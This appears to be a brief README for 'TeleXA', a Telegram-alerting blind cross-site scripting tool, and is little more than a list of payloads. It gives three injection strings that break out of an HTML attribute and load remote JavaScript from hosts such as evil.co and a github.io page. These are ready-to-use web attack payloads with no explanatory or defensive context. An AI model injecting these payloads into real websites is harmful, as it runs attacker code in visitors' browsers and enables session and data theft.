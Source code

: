 # TeleXA
Telegram Blind XSS Alert

# Payloads
```"><script src="http://evil.co/telexa.js"></script>``` \
```"><script src=http://user.github.io/txa.js></script>``` \
```"><script>$.getScript("//evil.co/txa.js")</script>```
